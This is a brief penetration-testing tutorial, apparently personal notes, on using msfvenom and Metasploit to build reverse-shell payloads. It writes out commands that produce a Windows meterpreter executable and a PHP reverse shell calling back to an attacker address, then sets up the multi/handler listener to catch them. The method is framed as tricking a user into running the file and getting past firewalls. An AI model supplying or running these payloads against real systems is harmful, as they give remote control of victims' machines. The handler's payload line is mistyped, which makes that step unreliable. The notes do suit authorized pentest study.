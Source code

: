# Msfvenom

Okay, so you have failed to discover any vulnerabilites in the system you are attacking. Fear not, there is still a last resort. Usually the weakest link: **the user**.

With msfvenom we are able to create exploits that we can send to the target, and trick the target to click it. The program will then call our machine.

## Basics

List exploits
```
msfvenom -l
```

Add the `--payload-options` to see the options
```
msfvenom -p windows/meterpreter_reverse_http --payload-options
```





## Create exploit

Here we create a program that will call the attacker machine.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe > payload.exe
```

We can also create reverse-shells in various languages

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f raw > windowsshell.php
```

One mistake I have done several times has been to accidentally leave in the `--payloads-options`, this ruins the whole payload and the shell won't work.


## Start listening for exploit

So once an exploit is set we need to start to listen for it. We can do that using metasploit.

```
use exploit/multi/handler
```

Set what payload you want for the listening part
```
set payload exploit/meterpreter/reverse_tcp
```

Show options
```
show options
set LHOST 192.168.1.101
set LPORT 8080
exploit
```




This does indeed bypass the firewall. Since the connection is initiated from the inside. A firewall normally (maybe older firewalls) only block incoming, and not outgoing connections.